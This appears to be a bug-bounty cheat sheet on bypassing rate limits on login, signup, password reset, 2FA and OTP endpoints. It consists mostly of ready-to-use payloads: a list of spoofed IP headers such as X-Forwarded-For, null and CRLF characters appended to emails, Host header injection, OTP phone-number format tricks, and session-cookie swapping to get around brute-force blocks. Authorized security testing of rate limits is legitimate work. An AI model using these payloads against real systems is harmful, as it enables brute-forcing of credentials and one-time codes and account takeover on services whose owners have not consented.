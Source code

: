 ### 1. Using different parameter, suppose rate limit is on signup, try to use:

    sign-up, Sign-up, SignUp
![image](https://user-images.githubusercontent.com/63053441/120425626-d06f0180-c383-11eb-9fec-22fdfc9c474e.png)<br></br>
![image](https://user-images.githubusercontent.com/63053441/120425794-16c46080-c384-11eb-94db-643501b2eae9.png)

[https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)


### 2.Rate Limit Bypass Headers:

Most Application’s use X-Forwarded-For common method for identifying the originating IP address of the client.
We All know that using X-Forwarded-For: IP Header Can sometime’s Bypass Ratelimit Protection.
Sometimes Adding Two Times X-Forwarded-For: IP Header Instead of One time Can Bypass Ratelimit Protection

    X-Forwarded: 127.0.0.1
    X-Forwarded-By: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Forwarded-For-Original: 127.0.0.1
    X-Forwarded-For-Ip: 127.0.0.1
    X-Forwarded-Host: 127.0.0.1
    X-Forward-For: 127.0.0.1
    Forwarded: 127.0.0.1
    Forwarded-For: 127.0.0.1
    Forwarded-For-Ip: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Host: 127.0.0.1
    X-True-Ip: 127.0.0.1

    IP Header 2x times Instead of One time. (Tip from Kiraak Boy)
![image](https://user-images.githubusercontent.com/63053441/120426382-3d36cb80-c385-11eb-8da7-63a1bee081a0.png)

    Sometimes, it is showing 20 Request per account, you can bypass it by using different IP after 20 attempts
![image](https://user-images.githubusercontent.com/63053441/120426528-838c2a80-c385-11eb-8d79-3927c4c031c6.png)<br></br>
![image](https://user-images.githubusercontent.com/63053441/120427217-c39fdd00-c386-11eb-9e48-6e9079d50fa6.png)



### 3.Rate limit on OTP sms.
        
    1) Capture the request. 
    2) Remove the country code +91 to [ ] 
    3) Modify the number from xxxxx-xxxxx to +91 xxxxx-xxxxx
        
### 4.Add this characters after the email or mobile

    %00, %0d%0a, %09, %0C, %20(white-space value), %0
        
![image](https://user-images.githubusercontent.com/63053441/120427626-7708d180-c387-11eb-8db2-28e3d438313e.png)

        
        
### 5.Just by adding random parameter (example: ?bypass) on the last endpoint.

![image](https://user-images.githubusercontent.com/63053441/120427012-63a93680-c386-11eb-85a0-ca3079c6ca4f.png)
[https://twitter.com/xchopath/status/1245402225788063744/photo/1](https://twitter.com/xchopath/status/1245402225788063744/photo/1)


---

Where to look for Bugs
```
- login
- reset password
- 2fA
- Confirmation codes
- Sign up
```

using Null Chars

```
%00, %0d%0a, %09, %0C, %20, %0
```
```
>brute force using abc@xyz.com
	after some time
	you got blocked
>try abc@xyz.com%00
```

Host Header injection

```
Change Host:www.newsite.com
Change Host:localhost
Change Host:127.0.0.1
```


Changing cookies
```
For example if it blocks by 15 Requests
Change session on 14 req and try 
```


X-forwaded-forwaded-For
```
X-Forwarded: <IP>
X-Forwarded-For: <IP>
X-Forwarded-Host: <IP>
X-Client-IP: <IP>
X-Remote-IP: <IP>
X-Remote-Addr: <IP>
X-Host: <IP>
X-Originating-IP: <IP>
```

X-forwaded-forwaded-For
```
add 2 headers
add Header X-Forwaded-For:
add Header X-Forwaded-For:198.168.43.1
```
---

